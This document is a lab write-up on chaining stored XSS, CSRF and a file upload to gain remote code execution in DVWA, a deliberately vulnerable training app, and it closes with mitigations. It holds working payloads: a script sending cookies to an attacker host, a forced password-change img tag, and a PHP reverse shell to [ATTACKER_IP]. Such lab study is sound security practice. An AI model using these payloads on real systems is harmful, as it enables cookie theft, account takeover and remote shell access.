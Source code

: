 # Lab Report: DVWA - Chaining XSS, CSRF, and File Upload for RCE

- **Author**: Eric Graham 
- **Date**: 07/28/2025
- **Target**: Damn Vulnerable Web App (DVWA) - `http://[DVWA_IP]`  
- **Security Level**: Low  

---

## Objectives
1. Exploit Stored XSS to steal admin cookies.
2. Use stolen cookies for session hijacking.
3. Chain CSRF to force a password change.
4. Upload a malicious PHP shell via file upload.
5. Achieve Remote Code Execution (RCE).

---

## Tools Used
- **Browser**: Firefox/Chrome + Developer Tools.
- **Burp Suite**: Intercepting/modifying requests.
- **Cookie Editor**: Injecting stolen session cookies.
- **Python HTTP Server**: Hosting malicious files.
- **Netcat**: Reverse shell listener.

---

## Step 1: Stored XSS to Cookie Theft
### Exploitation
1. Navigate to **DVWA → XSS (Stored)**.
2. Inject a malicious script to steal cookies:
   ```html
   <script>document.location='http://[ATTACKER_IP]/steal.php?cookie='+document.cookie</script>
   ```
3. Host a PHP server to capture cookies (`steal.php`):
   ```php
   <?php file_put_contents('cookies.txt', $_GET['cookie']); ?>
   ```
4. **Admin Trigger**: When an admin views the XSS-infected page, their cookies are sent to your server.

### Evidence
- [SCREENSHOT: XSS payload in DVWA]
- [SCREENSHOT: Captured cookies in `cookies.txt`]

---

## Step 2: Session Hijacking
### Exploitation
1. Use **Cookie Editor** to inject the stolen `PHPSESSID` and `security=low` cookies.
2. Refresh the page to gain admin access.

### Evidence
- [SCREENSHOT: Cookie injection via Cookie Editor]
- [SCREENSHOT: Admin dashboard post-hijacking]

---

## Step 3: CSRF to Force Password Change
### Exploitation
1. Craft a malicious HTML file (`csrf.html`):
   ```html
   <img src="http://[DVWA_IP]/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change" width="0" height="0">
   ```
2. Host it on a Python server:
   ```bash
   python3 -m http.server 8000
   ```
3. Trick the admin into visiting `http://[ATTACKER_IP]:8000/csrf.html`.

### Evidence
- [SCREENSHOT: CSRF payload execution in Network Tab]
- [SCREENSHOT: Successful login with new password `hacked`]

---

## Step 4: File Upload to RCE
### Exploitation
1. Log in as admin (via hijacked session).
2. Navigate to **DVWA → File Upload**.
3. Upload a PHP reverse shell (`shell.php`):
   ```php
   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER_IP]/4444 0>&1'"); ?>
   ```
4. Start a Netcat listener:
   ```bash
   nc -lvnp 4444
   ```
5. Access the uploaded shell at `http://[DVWA_IP]/hackable/uploads/shell.php`.

### Evidence
- [SCREENSHOT: Malicious file upload]
- [SCREENSHOT: Netcat reverse shell session]

---

## Mitigations
1. **XSS**: 
   - Sanitize user input with `htmlspecialchars()`.
   - Implement Content Security Policy (CSP).
2. **CSRF**: 
   - Use anti-CSRF tokens.
   - Require POST requests for sensitive actions.
3. **File Upload**: 
   - Restrict file extensions (e.g., block `.php`).
   - Store uploads outside the web root.

---

## Conclusion
This lab demonstrated how chaining low-severity vulnerabilities (XSS → CSRF → File Upload) can lead to **full system compromise**. Always validate inputs, enforce strict session controls, and audit file uploads.

---

**Appendix**:  
- [Full PHP reverse shell code]  
- [Burp Suite request/response samples]  


~ Eric Graham
